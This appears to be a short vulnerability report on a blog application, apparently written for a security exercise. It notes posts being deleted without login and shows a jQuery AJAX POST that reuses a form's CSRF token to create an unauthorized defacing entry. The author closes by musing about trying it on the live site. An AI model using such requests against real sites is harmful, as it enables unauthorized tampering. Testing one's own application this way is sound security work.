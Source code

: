 # Vulnerability Report

## Missing Function Level Access Control

So I can delete posts even though I'm not logged in, however it's only cosmetic
and the entry reappears on refresh.

I don't have access to the edit/create entry routes.

## CSRF

I tried to create an entry through the home page since that view doesn't have any access control,
but I was rebuffed by a lack of a csrf token. So then I went to the login form, grabbed my token
off that form and retried my ajax request with that. And I added some more fields I didn't realize I needed.
Like so:
```
$.ajax({
    type: 'POST',
    url: '/',
    data: {
        'csrf_token': '6c0e802261f43e01ef4ffa4c974b39a14f915acb',
        'title': 'YOU GOT HACKED SON',
        'body': 'Today I learned...how to get hacked',
        'category': 'hackin',
        'tags': '#hacklife'
    },
    success: function(){
        console.log("Yay!");
    }
});
```
Refresh the home page and there she blows! Tempted to try it on the live site...